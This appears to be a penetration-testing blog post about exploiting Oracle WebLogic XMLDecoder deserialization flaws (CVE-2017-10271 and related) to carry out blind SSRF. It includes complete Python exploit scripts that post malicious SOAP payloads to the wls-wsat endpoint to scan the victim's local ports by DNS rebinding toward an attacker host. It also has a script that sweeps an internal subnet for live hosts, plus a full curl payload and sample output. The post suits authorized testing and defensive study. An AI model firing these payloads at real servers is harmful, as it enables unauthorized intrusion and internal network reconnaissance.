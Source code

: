 ```yaml
---
layout: post
title: "Blind SSRF with Oracle WebLogic Deserialization"
date: 2020-09-26 22:00:00 +0300
author: snovvcrash
categories: /pentest
tags: [external-pentest, oracle, weblogic, java-deserialization, bind-ssrf, dns-rebinding, python]
published: true
---
```


A way to get an impact from exploiting Oracle WebLogic Server Java deserialization vulnerabilities (CVE-2017-3506, CVE-2017-10271, CVE-2019-2725, CVE-2019-2729) without triggering RCE through an SSRF attack.

<!--cut-->

![banner.png](/assets/images/blind-ssrf-with-oracle-weblogic-deserialization/banner.png)
{:.center-image}

* TOC
{:toc}

## Prologue

If you have discovered a running instance of Oracle WebLogic Server (>= 12.2.1.3) that is vulnerable to a Java deserialization attack during a pentest engagement but firing up RCE directly is not acceptable for you for some reason, then there is an alternative way to show impact to the Customer with an SSRF attack.

This type of vulnerabilities is usually exploited via deserialization of the `java.lang.ProcessBuilder` class to achieve command execution at the victim's host. Another class that can be successfully deserialized with a malicious SOAP request is `java.net.URL` which tries to interact with the provided URL. This attack scenario is implemented in [this](https://github.com/kkirsche/CVE-2017-10271) CVE-2017-10271 checker, for example. We can combine this trick with a blind SSRF attack to scan local ports listening on the target machine as well as discover new hosts within target's local network.

## Local Port Scan

### Python Simple HTTP Server

I built the following Python script and looped it through every TCP port at victim's localhost.

The script is mainly based on the [1u.ms](http://1u.ms/) service for DNS rebinding: it brings up a simple HTTP server on the attacker's box and then sends a malicious SOAP request to the target with `http://make-127.0.0.1-and-<ATTACKER_IP>rr.1u.ms:<PORT>` as a payload. If the target host **does not** have provided `<PORT>` opened, then DNS rebinding will be triggered and I will see that the response from victim came back right to my host (because the DNS query could not be resolved to victim's `127.0.0.1:<PORT>`). If the target host **does** have this `<PORT>` opened, then DNS rebinding will not be triggered and I will not see a response on my box which means victim's machine successfully resolved this DNS query to its localhost at the first place.

```
$ for port in `seq 1 65535`; do sudo python3 -u ssrf-port-scan.py $port 2>&1 | tee -a ports.log; done
```

```python
#!/usr/bin/env python3

import sys
import urllib3
from threading import Thread
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer

import requests

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


class HTTPServerInThread(Thread):

	def __init__(self, address, port):
		super().__init__()
		self.address = address
		self.port = port
		self.httpd = TCPServer((address, port), SimpleHTTPRequestHandler)

	def run(self):
		#print(f'[*] Serving HTTP on {self.address} port {self.port} (http://{self.address}:{self.port}/) ...')
		self.httpd.serve_forever()


class Default(dict):

	def __missing__(self, key):
		return '{' + key + '}'


if __name__ == '__main__':
	port = int(sys.argv[1])

	headers = {'Content-Type': 'text/xml;charset=UTF-8'}
	data = f"""<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java version="1.8" class="java.beans.XMLDecoder">
        <void id="url" class="java.net.URL">
          <string>http://make-127.0.0.1-and-<ATTACKER_IP>rr.1u.ms:{port}</string>
        </void>
        <void idref="url">
          <void id="stream" method = "openStream" />
        </void>
      </java>
    </work:WorkContext>
    </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
"""

	server = HTTPServerInThread(address='0.0.0.0', port=port)
	server.daemon = True
	server.start()

	print(port)
	resp = requests.post('http://<TARGET_IP>/wls-wsat/CoordinatorPortType', headers=headers, data=data, verify=False)
	if resp.status_code != 500:
		print(f'[?] Status code for port {port} is {resp.status_code}')
```

Here is a PoC request that validates that the default WebLogic Server 7001/TCP port is listened on victim's 127.0.0.1:

[![burp-poc-7001.png](/assets/images/blind-ssrf-with-oracle-weblogic-deserialization/burp-poc-7001.png)](/assets/images/blind-ssrf-with-oracle-weblogic-deserialization/burp-poc-7001.png)
{:.center-image}

### tcpdump

An easier way to validate status of the remote port is to use tcpdump to monitor victim's responses:

```
$ sudo tcpdump -n -i eth0 -A -s0 'src <TARGET_IP> and tcp'
$ curl -i -s -k -X $'POST' \
    -H $'Host: <TARGET_IP>' \
    -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36' \
    -H $'Accept-Encoding: gzip, deflate' -H $'Accept: */*' -H $'Connection: close' -H $'Content-Type: text/xml;charset=UTF-8' -H $'Content-Length: 574' \
    --data-binary $'<soapenv:Envelope xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\">\x0d\x0a  <soapenv:Header>\x0d\x0a    <work:WorkContext xmlns:work=\"http://bea.com/2004/06/soap/workarea/\">\x0d\x0a      <java version=\"1.8\" class=\"java.beans.XMLDecoder\">\x0d\x0a        <void id=\"url\" class=\"java.net.URL\">\x0d\x0a          <string>http://make-127.0.0.1-and-<ATTACKER_IP>rr.1u.ms:7001</string>\x0d\x0a        </void>\x0d\x0a        <void idref=\"url\">\x0d\x0a          <void id=\"stream\" method = \"openStream\" />\x0d\x0a        </void>\x0d\x0a      </java>\x0d\x0a    </work:WorkContext>\x0d\x0a    </soapenv:Header>\x0d\x0a  <soapenv:Body/>\x0d\x0a</soapenv:Envelope>' \
    $'http://<TARGET_IP>/wls-wsat/CoordinatorPortType'
```

## Host Discovery

A similar approach can be used to discover live hosts within victim's local network. This attack is even more blind because you should guess a network range first as well as make a guess which port is definitely opened on a testing machine. I chose the 88 port to discover Kerberos KDC service on domain controllers within `192.168.10.0/24` network as an example. I do not use DNS rebinding here but instead look for request timeout events to differentiate live hosts:

```python
#!/usr/bin/env python3

import urllib3
from ipaddress import IPv4Network

import requests

if __name__ == '__main__':
        urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
        headers = {'Content-Type': 'text/xml;charset=UTF-8'}

        port = 88
        for ip in (str(i) for i in IPv4Network('192.168.10.0/24')):
                data = f"""<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java version="1.8" class="java.beans.XMLDecoder">
        <void id="url" class="java.net.URL">
          <string>http://{ip}:{port}</string>
        </void>
        <void idref="url">
          <void id="stream" method="openStream" />
        </void>
      </java>
    </work:WorkContext>
    </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
"""

                try:
                        resp = requests.post('http://<TARGET_IP>/wls-wsat/CoordinatorPortType', headers=headers, data=data, verify=False, timeout=4)
                except requests.Timeout:
                    print(f'[-] {ip}:{port}')
                else:
                    print(f'[+] {ip}:{port}')
```

```
$ python3 -u ssrf-host-discovery.py | tee -a hosts.log
[-] 192.168.10.0:88
[-] 192.168.10.1:88
[-] 192.168.10.2:88
[-] 192.168.10.3:88
[-] 192.168.10.4:88
[-] 192.168.10.5:88
[-] 192.168.10.6:88
[-] 192.168.10.7:88
[-] 192.168.10.8:88
[-] 192.168.10.9:88
[+] 192.168.10.10:88
[-] 192.168.10.11:88
[-] 192.168.10.12:88
[-] 192.168.10.13:88
```

## Refs

* [Плохая логика. Выполняем произвольный код в популярном сервере приложений Oracle WebLogic — «Хакер»](https://xakep.ru/2018/01/18/oracle-weblogic-exploit/)
* [Подделка серверных запросов, эксплуатация Blind SSRF / Взрывной блог](https://bo0om.ru/blind-ssrf)
